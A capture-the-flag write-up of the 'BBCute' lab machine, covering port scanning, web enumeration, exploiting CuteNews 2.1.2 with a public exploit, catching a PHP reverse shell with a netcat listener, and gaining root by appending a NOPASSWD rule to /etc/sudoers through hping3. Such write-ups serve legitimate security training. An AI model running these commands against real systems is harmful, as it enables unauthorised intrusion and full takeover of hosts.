


# BBCute

### Nmap

```shell
nmap -sV -sC -T4 -p- -oN bbscute -oX bbscute.xml 192.168.228.128
```

```
Nmap scan report for 192.168.228.128
Host is up (0.19s latency).
Not shown: 63365 closed tcp ports (conn-refused), 2165 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

<figure><figcaption><p>nmap</p></figcaption></figure>

### port 80 enumeration

<figure><figcaption><p>port 80</p></figcaption></figure>

since we have our website running on port 80, let try to find the directories and files that might be present

```shell
feroxbuster -u http://192.168.228.128/ -x html,php,txt,js,asp
```

with feroxbuster we find some files and directories&#x20;

<figure><figcaption><p>feroxbuster</p></figcaption></figure>

The process was taking a bit long i decide to use another tool for for file discovery

```shell
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "http://192.168.228.128/FUZZ"
```

With <mark style="background-color:yellow;">wfuzz</mark> i decided to be specific on file where i used different flag to get my data fast and also i used a different dictionary

```
-c  - is to give colour in our output
-z - is used to provide our payload dictionary which means i have to provide the word FUZZ where i want to search for my files
--hc - is used not to display the set response codes.
```

<figure><figcaption><p>wfuzz.png</p></figcaption></figure>

Time to test the files received, i started with the <mark style="background-color:yellow;">search.php</mark> file which gave me some input form where i spent some time trying to inject the sql payloads but none was working and it was a rabbit hole for me. then i tried the <mark style="background-color:yellow;">index.php</mark> which gave me a login form

<figure><figcaption></figcaption></figure>

And when you see down it has the text "powered by Cutenews 2.1.2" and my first attempt on this is to search in my system if their is any exploit released .

```shell
searchsploit CuteNews 2.1.2
```

<figure><figcaption></figcaption></figure>

Now since one of the exploits brought back metasploit, i powered up my metasploit to use it but unfortunately its isn't installed within, you have to download the ruby file and put it in the plugins location of metasploit (/usr/share/metasploit-framework/plugin)&#x20;

<figure><figcaption></figcaption></figure>

Now is tried loading this plugin but it failed

&#x20;

<figure><figcaption></figcaption></figure>

So i decided to use use another Exploit listed with is **48800.py** , now i tried to read this to know which python version was used and more info about it.

<figure><figcaption></figcaption></figure>

```shell
searchsploit -m 48800.py
```

Now downloading this file does not not start right away because you have to change some data, this took me long and i got to know it after doing some google searching

open the file with best text editor and find every word in your code which is **Cutenews** and remove it from your code, why because on our website we don't have the **cutenews** folder, we start directly on our root (/).

<figure><figcaption></figcaption></figure>

After Editing your script run it and provide the website url

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Now when you script is successful you will have to upload your php reverse shell file to the server then set Ncat to listen to the port you have set in your file.

```shell
nc -lvnp 4444
```

<figure><figcaption></figcaption></figure>

use (**/bin/bash -i** or **python3 -c 'import pty;pty.spawn("/bin/bash")'** ) to get a interactive shell.

### privilege escalation

Running **sudo -l** we see a service running as root with no password

<figure><figcaption></figcaption></figure>

i tried **sudo /usr/sbin/hping3** but it was asking for a password so i just wrote **hping3** in my terminal and i got another shell for **hping3**. Since this program runs as root i used to to set other permissions to our user www-data so that we can get the root account.

```shell
echo "www-data ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
```

<figure><figcaption></figcaption></figure>

first flag&#x20;

<figure><figcaption></figcaption></figure>

&#x20;second flag is here

<figure><figcaption></figcaption></figure>
